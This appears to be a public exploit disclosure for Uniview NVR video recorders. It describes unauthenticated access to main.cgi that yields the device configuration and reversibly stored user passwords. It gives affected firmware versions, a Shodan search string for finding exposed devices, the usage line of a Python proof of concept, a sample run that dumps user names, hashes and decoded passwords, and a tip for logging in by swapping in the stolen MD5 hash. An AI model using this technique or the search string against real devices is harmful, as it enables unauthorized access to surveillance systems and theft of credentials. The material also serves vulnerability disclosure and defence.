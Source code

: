 # Uniview NVR remote passwords disclosure

The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
It means that you can do anything without authentication, however you must know the request structure.
In addition, the users' passwords are both hashed and also stored in a reversible way
The POC below remotely downloads the device's configuration file, extracts the credentials
and decodes the reversible password strings using my crafted map

It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
MD5 with the one disclosed using this script


Tested on the following models:
  NVR304-16E - Software Version B3118P26C00510
  NVR301-08-P8 - Software Version B3218P26C00512
						version B3220P11
						version B3219P22

 Other versions may also be affected

Shodan dork for similar devices: "Text.VideoManageSystem"

Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

Run example:

	root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5
	Uniview NVR remote passwords disclosure!
	Author: B1t0n
	
	[+] Getting model name and software version...
		Model: NVR301-08-P8
 		Software Version: B3218P26C00512

 	[+] Getting configuration file...
 	[+] Number of users found: 4

 	[+] Extracting users' hashes and decoding reversible strings:

 	User 	|	 Hash 	|	 Password
 	_________________________________________________
 	admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
 	default 	|	 	|	||||||||||||||||||||
 	HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
 	test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****

  	*Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely
